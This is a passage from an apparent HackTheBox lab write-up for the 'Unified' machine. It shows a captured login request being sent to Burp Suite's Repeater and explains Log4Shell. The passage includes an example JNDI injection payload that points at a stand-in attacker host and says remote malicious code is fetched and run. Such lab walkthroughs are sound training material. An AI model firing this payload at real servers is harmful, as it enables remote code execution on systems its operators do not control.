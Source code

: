 As shown in the figure below, we can see <code>{username:, password:, remember:, strict:}</code><br> 
<code>Right click</code>  on BurpSuite page ⇒ <code>send to repeater</code><br> 
FYI：<a href="https://portswigger.net/burp/documentation/desktop/tools/repeater">Burp Repeater</a><br> 
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/SentToRepeater.png" alt="SentToRepeater" width="60%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/Repeater.png" alt="Repeater" width="60%"><br> 
Go to <code>Repeater</code> and press <code>Send</code> to see detailed information about the web page Response.<br>
FYI：<a href="https://www.dynatrace.com/news/blog/what-is-log4shell/">Log4Shell</a><br> 
Hackers can add a <code>JNDI</code> query expression such as <code>${jndi:ldap://xxx.attacker.com/exp}</code>,<br> 
malicious programs will be downloaded or executed if the URL contains them.<br>
